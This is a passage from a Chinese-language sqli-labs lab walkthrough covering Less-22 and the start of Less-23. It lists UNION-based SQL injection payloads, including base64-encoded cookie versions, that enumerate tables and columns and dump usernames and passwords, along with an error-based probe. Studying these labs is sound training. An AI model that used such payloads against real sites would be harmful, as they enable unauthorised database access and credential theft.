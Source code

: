') union select group_concat(table_name),2,3 from information_schema.tables where table_schema = 'security'#

Cookie: uname=JykgVU5JT04gU0VMRUNUIGdyb3VwX2NvbmNhdChjb2x1bW5fbmFtZSksMiwzIEZST00gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgV0hFUkUgdGFibGVfc2NoZW1hID0gJ3NlY3VyaXR5JyBBTkQgdGFibGVfbmFtZSA9ICd1c2Vycycj

') union select group_concat(column_name),2,3 from information_schema.columns where table_schema = 'security' and table_name = 'users'#

Cookie: dW5hbWU9JykgVU5JT04gU0VMRUNUIGdyb3VwX2NvbmNhdChjb25jYXQoIjoiLHVzZXJuYW1lLHBhc3N3b3JkKSksMiwzIEZST00gc2VjdXJpdHkudXNlcnMj

') union select group_concat(concat(":",username,password)),2,3 from security.users#

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250418201214486.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250418201214486.png)

## Less-22

原理和上一关一样一样的（注入点在cookie的uname参数值，payload需要base64编码，如果编码后有等号还需要url编码），就是闭合换成双引号了。

注入点变成"

Cookie: uname= IiM=

" #

Cookie: uname=YSIgdW5pb24gc2VsZWN0IDEsMiwzIw==

a" union select 1,2,3#

Cookie: uname= IiB1bmlvbiBzZWxlY3QgZGF0YWJhc2UoKSwyLDMj

" union select database(),2,3#

Cookie: uname= IiB1bmlvbiBzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpLDIsMyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgd2hlcmUgdGFibGVfc2NoZW1hID0gJ3NlY3VyaXR5JyM=

" union select group_concat(table_name),2,3 from information_schema.tables where table_schema = 'security'#

Cookie: uname= IiB1bmlvbiBzZWxlY3QgZ3JvdXBfY29uY2F0KGNvbHVtbl9uYW1lKSwyLDMgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyB3aGVyZSB0YWJsZV9zY2hlbWEgPSAnc2VjdXJpdHknIGFuZCB0YWJsZV9uYW1lID0gJ3VzZXJzJyM=

" union select group_concat(column_name),2,3 from information_schema.columns where table_schema = 'security' and table_name = 'users'#

Cookie: uname:= IiB1bmlvbiBzZWxlY3QgZ3JvdXBfY29uY2F0KGNvbmNhdCgiOiIsdXNlcm5hbWUscGFzc3dvcmQpKSwyLDMgZnJvbSBzZWN1cml0eS51c2VycyM=

" union select group_concat(concat(":",username,password)),2,3 from security.users#

## Less-23

**联合注入-过滤注释符**

?id=1 正常返回数据

?id=1'`**Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **D:\CTF-Tools\phpstudy_pro\WWW\sqli-labs\Less-23\index.php** on line **38** You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1` 确定是单引号字符型
